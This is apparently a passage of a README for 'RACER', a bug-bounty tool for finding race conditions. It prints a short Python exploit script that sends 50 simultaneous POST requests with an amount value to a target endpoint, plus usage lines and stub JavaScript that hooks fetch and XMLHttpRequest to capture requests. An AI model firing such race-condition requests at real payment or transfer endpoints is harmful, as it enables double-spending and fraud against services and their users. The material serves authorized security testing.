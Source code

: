 ```python
PARALLEL=50
EXPECTED=1
BODY='''{"amount":100}'''

async def exploit():
    print(f"{Fore.CYAN}[*] RACER V2.0 - Starting attack...")
    async with aiohttp.ClientSession() as s:
        tasks=[s.post(TARGET,data=BODY) for _ in range(PARALLEL)]
        r=await asyncio.gather(*tasks,return_exceptions=True)
        success=sum(1 for x in r if not isinstance(x,Exception)and x.status==200)
        print(f"{Fore.GREEN}✓ Success: {success}")
        print(f"{Fore.RED}✗ Failed: {len(r)-success}")
        if success>EXPECTED:print(f"{Fore.GREEN}🔴 RACE DETECTED!")

if __name__=="__main__":asyncio.run(exploit())
```

**Usage:**
```bash
# Save as exploit.py
python3 exploit.py
```

---

## 🔧 Technical Details

### How RACER Works

#### 1. Request Interception
```javascript
// Overrides native fetch API
window.fetch = function() {
  // Captures request details
  // Calls original fetch
}

// Overrides XMLHttpRequest
XMLHttpRequest.prototype.open = function() {
  // Captures request details
  // Calls original XHR
}
```

#### 2. Pattern Analysis
- Analyzes URLs and request bodies for keywords
- Matches against 12 vulnerability patterns
- Assigns risk scores based on:
  - Pattern severity
  - Number of keyword matches
  - HTTP method
  - Known HackerOne reports
